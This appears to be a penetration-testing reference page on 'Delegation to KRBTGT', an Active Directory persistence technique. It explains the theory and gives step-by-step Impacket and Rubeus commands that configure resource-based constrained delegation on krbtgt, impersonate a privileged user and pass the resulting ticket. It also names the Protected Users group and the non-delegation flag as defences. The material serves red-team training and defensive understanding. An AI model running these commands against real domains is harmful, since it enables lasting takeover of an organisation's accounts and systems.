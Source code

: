 # Delegation to KRBTGT

## Theory

The idea behind this technique is to configure [resource-based constrained delegation](../movement/kerberos/delegations/rbcd.md) on the `krbtgt` account to generate TGTs on-demand as a persistence technique. The requirements for the technique are to have enough privileges (i.e. domain admin rights) to edit the `krbtgt` account's "rbcd" attribute (i.e. `ms-DS-Allowed-To-Act-On-Behalf-Of-Other-Identity`) and to control an account that has an SPN ([or create one](../movement/domain-settings/machineaccountquota.md)).

Once the delegation is configured, an attacker can later on obtain a service ticket for the krbtgt on behalf of any user. Since a TGT is just a service ticket for the `KRBTGT` service, it means the attacker has a persistence technique allowing him to obtain a TGT for almost any user in the domain. The only limitations are the "Protected Users" group, or the "Account is sensitive and cannot be delegated" parameter. Those settings can protect users from delegation and will prevent attackers from obtaining a ticket that looks like a TGT on their behalf through a delegation trick.

An example of the abuse goes as follows :

1. Configure RBCD delegation on the `krbtgt` account to allow a controlled account to delegate to it. The controlled account should have at least one SPN (i.e. ServicePrincipalName) for the delegation to work ([not mandatory though](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html)). This controlled account will be called "ControlledAccountWithSPN".
2. Perform a full [S4U](../movement/kerberos/delegations/) attack to obtain a Service Ticket for the `krbtgt` service, on behalf of another privileged user. Let's call this chosen user "TargetedAccount". The ticket obtained through this process is for the `KRBTGT` service, which basically means the ticket can be used as a TGT for the TargetedAccount.
3. [Pass-the-ticket](../movement/kerberos/ptt.md) to use the TGT, act as the target -privileged- user, and authenticate to remote resources.

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
Every step of this attack can be achieved using one of the following scripts from Impacket : rbcd.py and getST.py.

{% code overflow="wrap" %}
```bash
# Step 1 : Configure RBCD delegation from ControlledAccountWithSPN to krbtgt
rbcd.py -delegate-from 'ControlledAccountWithSPN' -delegate-to 'krbtgt' -dc-ip $dcIp -action write 'DOMAIN'/'PrivilegiedAccount':'StrongPassword'

# Step 2 : S4U attack for TargetedAccount to ControlledAccountWithSPN
getST.py -spn "KRBTGT" -impersonate "TargetedAccount" -dc-ip $dcIp 'DOMAIN'/'ControlledAccountWithSPN':'PasswordOfControlledAccountWithSPN'

# Step 3 : Get Service Ticket for TargetedAccount to the target service using the previously obtained ticket (which is a TGT).
KRB5CCNAME='TargetedAccount@krbtgt_DOMAIN@DOMAIN.ccache' getST.py -spn 'cifs/target' -k -no-pass 'DOMAIN'/'TargetedAccount'
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
Every step of this attack can be achieved using Rubeus and the Set-ADUser command.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"># Step 1 : Configure RBCD delegation from ControlledAccountWithSPN to krbtgt
Set-ADUser krbtgt -PrincipalsAllowedToDelegateToAccount ControlledAccountWithSPN

# Step 2 : Full S4U for TargetedAccount to krbtgt using ControlledAccountWithSPN
<strong>Rubeus.exe s4u /nowrap /impersonateuser:"TargetedAccount" /msdsspn:"krbtgt" /domain:"DOMAIN" /user:"ControlledAccountWithSPN" /rc4:$NThash
</strong>
# Step 3 : Get Service Ticket for TargetedAccount to the target service using the previously obtained ticket (printed in a base64 blob thanks to the /nowrap flag), and inject it in memory using /ptt in order to use the resulting ticket for authentication to remote resources
Rubeus.exe asktgs /service:"cifs/target" /ticket:"base64ticket...." /ptt</code></pre>
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#unconstrained-domain-persistence" %}

{% embed url="https://skyblue.team/posts/delegate-krbtgt/" %}

{% content-ref url="../movement/kerberos/delegations/rbcd.md" %}
[rbcd.md](../movement/kerberos/delegations/rbcd.md)
{% endcontent-ref %}
